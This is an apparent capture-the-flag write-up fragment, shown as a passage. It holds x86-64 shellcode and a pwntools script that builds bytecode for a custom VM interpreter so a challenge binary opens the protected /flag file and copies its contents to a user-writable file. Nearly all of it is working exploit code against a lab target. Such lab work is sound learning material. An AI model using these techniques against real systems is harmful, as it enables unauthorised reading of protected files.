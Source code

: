 ```python
copy_loop:
mov dl, byte ptr[rbx + rcx]
mov byte ptr[rax + rcx], dl
inc rcx
cmp rcx, yancode_end - yancode_start
je done
jmp copy_loop

done:
mov rdi, 3
mov rsi, 1337
mov rax, 16
syscall
jmp done

yancode_start:
{}

yancode_end:
saved_mmap_addr:
.byte 0
.byte 0
.byte 0
.byte 0
.byte 0
.byte 0
.byte 0
.byte 0
'''

def main():     
    p = process(BINARY)
    
    flag_path = b'/flag\x00'
    flag_addr = 0
    flag_content_addr = flag_addr + len(flag_path)
    max_size = 0x80
    out_file_path = b'/home/hacker/OUT\x00'
    out_file_addr = max_size
    
    with open(out_file_path[:-1], 'wb') as f:
        pass

    yancode = b''
    # Store "flag" in mem[0]
    yancode += store_string(addr=flag_addr, string=flag_path)
    # open("/flag", O_RDONLY, 0)
    yancode += open_file(file_addr=flag_addr)
    # read(fd, &mem[0], 0x50)
    yancode += read_to_memory(fd=Regs.a, offset=flag_content_addr, count=max_size)

    # Store out filename in mem[0x80]
    yancode += store_string(addr=out_file_addr, string=out_file_path)
    yancode += open_file(file_addr=out_file_addr, flags=2)
    yancode += write_from_memory(fd=Regs.a, offset=flag_content_addr, count=max_size)

    yan_asm = ''
    for i, b in enumerate(yancode):
        yan_asm += f'.byte {hex(b)}\n'
        if (i % 3) == 0 and (b == int.from_bytes(Opcodes.SYSCALL, "little")):
            log.info(f'Syscall index is: {i} Type: {yancode[i + 1]}')
    
    log.info(SHELLCODE.format(yan_asm))
```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html